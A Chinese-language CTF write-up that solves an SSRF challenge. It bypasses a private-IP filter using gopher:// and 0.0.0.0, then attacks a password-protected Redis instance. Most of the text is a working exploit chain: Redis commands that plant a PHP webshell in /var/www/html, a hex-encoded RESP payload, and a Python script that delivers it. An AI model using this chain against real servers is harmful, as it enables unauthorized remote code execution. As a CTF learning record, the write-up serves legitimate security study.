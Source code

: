 tags:: [[CTF/SSRF]], [[CTF/Redis]]

-
- # 思路
	- 绕过题目的IP检测进行SSRF, 先打hint.php, 然后打带密码的redis
- # 绕过IP检测
	- 题目会检测IP和请求类型
		- `ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;`
		- `$match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);`
	- 可以使用gopher配合`0.0.0.0`访问本地，绕过检测
- # hint.php
	- `file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);`
	- 提示redis的密码是root
- # 带密码的redis
	- 首先在本地打开redis客户端和服务端，tcpdump抓包
		- `tcpdump -i lo -s 0 port 6379 -w redis.pcap`
	- 本地客户端操控本地服务端，tcp流被tcpdump记录
		- ```redis
		  set evilkey "\n\n<?php\nsystem($_POST['data']);\n?>\n\n"
		  config set dir /var/www/html/
		  config set dbfilename redis.php
		  save
		  ```
	- 用wireshark打开包，追踪TCP流，仅显示客户端发送的字符，以Raw格式显示，此时屏幕上的16进制数据就是客户端发送的字符，按照TCP包换行
		- ![Screenshot_2023-02-06_22-10-44.png](../assets/Screenshot_2023-02-06_22-10-44_1675692661358_0.png)
	- 将raw格式的数据转换成urlencode的数据，放入gopher协议中，发送
		- ```python
		  s = """
		  2a310d0a24370d0a434f4d4d414e440d0a
		  2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a
		  2a330d0a24330d0a7365740d0a24370d0a6576696c6b65790d0a2433360d0a0a0a3c3f7068700a73797374656d28245f504f53545b2764617461275d293b0a3f3e0a0a0d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431340d0a2f7661722f7777772f68746d6c2f0d0a
		  2a320d0a24310d0a650d0a24390d0a72656469732e7068700d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a24390d0a72656469732e7068700d0a
		  2a310d0a24340d0a736176650d0a
		  """.replace("\n", "")
		  
		  redis_payload = enc_dec.long_to_bytes(int(s, 16))
		  redis_payload = "gopher://0.0.0.0:6379/_" + enc_dec.urlencode(redis_payload)
		  r = base_get(url, params = {
		      "url": redis_payload
		  })
		  print(r.text)
		  ```
-